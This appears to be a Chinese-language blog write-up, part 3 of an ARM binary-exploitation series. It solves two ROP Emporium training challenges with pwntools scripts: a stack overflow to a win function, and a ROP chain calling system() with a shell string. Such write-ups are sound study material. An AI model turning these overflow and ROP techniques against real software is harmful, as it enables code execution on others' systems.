 ```yaml
---
title: ARM pwn 入门 (3)
date: 2023-02-28 22:02:00
categories:
- 学习笔记
- ARM pwn 系列
---
```

<font face=汉仪唐美人>由于网上的ARM pwn题很少很难找，因此这里拿ROP Emporium的8道题做练习，这个[网站](https://ropemporium.com/)有包含x86-64、x86-32、MIPS、ARM共4种架构的elf文件可以做。</font>

# <font face=汉仪唐美人>1. ret2win</font>
<font color=ff0000, face=汉仪唐美人>注意：在执行需要动态链接库加载的ARM elf文件时，如果直接使用``qemu-arm xxx``有可能会报错：``/lib/ld-linux.so.3: No such file or directory``。解决方法：安装arm交叉编译包``apt install gcc-arm-linux-gnueabi``，找到交叉编译包的lib地址（一般都是``/usr/arm-linux-gnueabi``），在命令后添加``-L /usr/arm-linux-gnueabi``即可。</font>

![](1.png)
<font face=汉仪唐美人>这是一道最为简单的栈溢出，ret2text。为了熟悉ARM指令，我们从汇编层面进行分析。</font>

<font face=汉仪唐美人>可以看到，在ARM的函数调用规则中，参数的赋值顺序是从右到左，如下方``BL``指令调用``read``函数前，首先将第3个参数``nbytes``赋值给``R2``寄存器。在``pwnme``函数开头有一个``PUSH``指令，这里的``R11``可以看做是``rbp``，``LR``是函数返回值，在函数开头这两个寄存器基本都是要入栈的。然后保存``R11``的值作为栈帧的标记，``SP``下移留出栈空间。这就是函数开头需要完成的工作，与x86-64架构如出一辙。</font>

<font face=汉仪唐美人>下面看到``read``函数的调用部分。第二个参数``R1``的值为``R11-0x24``，由于``R11``在往上就是返回地址，因此要修改返回地址，应该先写入0x24长度的无效字节，然后写后门函数的返回地址。</font>

<font face=汉仪唐美人>最后看一下函数即将返回之前需要完成的工作。首先恢复``SP``为``R11-4``，然后``R11``出栈，``PC``出栈。在正常情况下，这里的``R11``出栈后应该指向父函数的栈空间顶端。现在我们进行了栈溢出，修改了这里的值，``R11``就无效了。</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi/', './ret2win_armv5'])

io.sendlineafter(b'> ', cyclic(0x24) + p32(0x105ec))
io.interactive()
```

# <font face=汉仪唐美人>2. split</font>
![](2.png)
![](3.png)

<font face=汉仪唐美人>这里有一个有用的字符串和一个后门函数，只不过这个后门函数不能让我们拿到shell，很自然的想法就是调用system函数，参数改成那个字符串的地址。</font>

<font face=汉仪唐美人>由于该elf文件的加载地址固定，我们就直接在elf文件中寻找可用的gadget。</font>

![](4.png)

<font face=汉仪唐美人>不同于x86-64架构，ARM架构下的gadget似乎要更少一些。如上图所示，只用``pop``指令的gadget中没有能够``pop r0``的，我们只能扩大范围进行查找：</font>

![在这里插入图片描述](https://img-blog.csdnimg.cn/a33eaa7d29b040aabdef96c34b83c98f.png)

<font face=汉仪唐美人>于是我们找到了这个gadget，它可以和上面的``pop {r3, pc}``连接起来，首先修改``r3``的值，再修改``r0``的值即可。于是我们的exp呼之欲出：</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi/', './split_armv5'])

popr3pc = 0x103a4
movr0r3_popfppc = 0x10558
shellstr = 0x2103c
callsystem = 0x105e0

io.sendlineafter(b'> ', cyclic(0x24) + p32(popr3pc) + p32(shellstr) + p32(movr0r3_popfppc) + p32(0) + p32(callsystem))
io.interactive()
```

<font face=汉仪唐美人>PS：本来想发三道题的，但是这周末比赛打的太累了，第三题就留到后面一篇文章发了，还请谅解。</font>
